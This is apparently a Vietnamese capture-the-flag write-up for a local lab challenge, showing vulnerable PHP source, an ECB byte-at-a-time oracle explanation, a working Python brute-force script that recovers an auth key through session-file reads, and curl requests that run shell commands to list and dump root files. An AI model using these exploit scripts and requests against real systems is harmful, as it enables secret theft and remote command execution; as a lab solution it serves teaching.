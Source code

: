 # EncryptBoizzz


## Enumeration
`source-code`: http://localhost:2010?debug=hint
```php
define('BLOCK_SIZE', 16);

function pad($string) {
	if (strlen($string) % BLOCK_SIZE === 0)
		$plaintext = $string;
	else  {
		$s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
		$plaintext = $string.str_repeat(chr($s), $s);
	} 
	return $plaintext;
}
function encrypt($name) {
	global $auth_key, $key_for_enc; // from config.php with luv!!

	$method = 'AES-128-ECB';
	$plaintext = pad($name.$auth_key);
	return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
	$_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
	if (safe($_GET['file'])) 
		@readfile($_GET['file']);
	else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
	if ($_GET['auth_key'] === $auth_key) {
		if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
			@system($_GET["command"]);
	}
	else echo "Wrong auth_key!!";
}
```

**Review source-code**:  

1. Chương trình lấy `name parameter` mà ta cung cấp, nối với `$auth_key` rồi encrypt với method `AES-128-ECB`(Electronic Code Block) và convert sang hexdecimal rồi gán cho session. 

2. Cho file parameter và ta có thể đọc được các file trong hệ thống, tuy nhiên hàm này có đi qua 1 hàm fitler là `safe()`, ta có thể dùng `file` để đọc `/tmp/sess_[PHPSESSID]` và thấy được kết quả sau khi encrypt.

3. Cho `auth_key parameter`, nếu cung cấp đúng `auth_key` thì cho phép thực thi code tuy nhiên bị giới hạn không quá 5 ký tự.

## Exploit
Thuận toán ECB encryption là 1 thuật toán mã hóa không an toàn, đặc biệt khi `block_size` quá bé như 16 bytes. 

Ta biết rằng thuật toán ECB chia plaintext ra thành các block 16 bytes và encrypt các block này độc lập với nhau. Nếu chưa đủ 16 bytes thì thuật toán sẽ tự thêm padding cho đủ 16 bytes. 

Nếu ta request: `?name= 'A' * 32` thì ta sẽ được 2 block A sau khi encrypt là như nhau.
```
5673760b1cc65c365e93fa8f4317a2c4

5673760b1cc65c365e93fa8f4317a2c4

ddef00dfaf0fc11ded05777122bec5c5
5fec0e7366a611d06db4ea75b91cedc3
```
**Reference**: https://zachgrace.com/posts/attacking-ecb/

Như link tham khảo trên, ta thấy rằng có thể đọc được auth_key bằng cách brute-force từng byte của auth_key. 

**Python Exploit**:
```python
import requests
import string
import re

url = 'http://localhost:2010/'
characters = string.digits + string.ascii_letters
auth_key = ''

cookies = {
	'PHPSESSID': '420e324bd72e1caf08a5cdf5d28317b4'
}

def check():
	r = requests.get(url, cookies=cookies, params={'file': '/tmp/sess_420e324bd72e1caf08a5cdf5d28317b4'})
	
	block = re.findall('name|s:.*:"(.*)";', r.text)[1]

	return block[0:32] == block[32:64]


for i in range(15, -1, -1):
	for c in characters:
		payload = 'A' * i + auth_key + c + 'A' * i

		r = requests.get(url, cookies=cookies, params={'name': payload})

		print(c)

		if check():
			auth_key += c
			print('[FOUND] - ' + auth_key)
			break
```

**auth_key**: `AuthKey4N00b3r`

Có được auth_key rồi, tìm flag thôi!!

```bash
# List file tìm được file chứa flag
curl 'http://localhost:2010/?command=ls%20/&auth_key=AuthKey4N00b3r'
# nice_flag_for_new_kcsc_member.txt
```
Thử `?file=nice_flag_for_new_kcsc_member.txt` nhưng không thể đọc được, có lẽ đã bị hàm safe() filter. Tuy nhiên ta vẫn có thể dùng m4(command tựa cat) cùng với wildcard(`*`) để đọc hết file ở root directory.
```bash
curl 'http://localhost:2010/?command=m4%20/*&auth_key=AuthKey4N00b3r'
```

**flag**: `KCSC{flag_for_testing}`
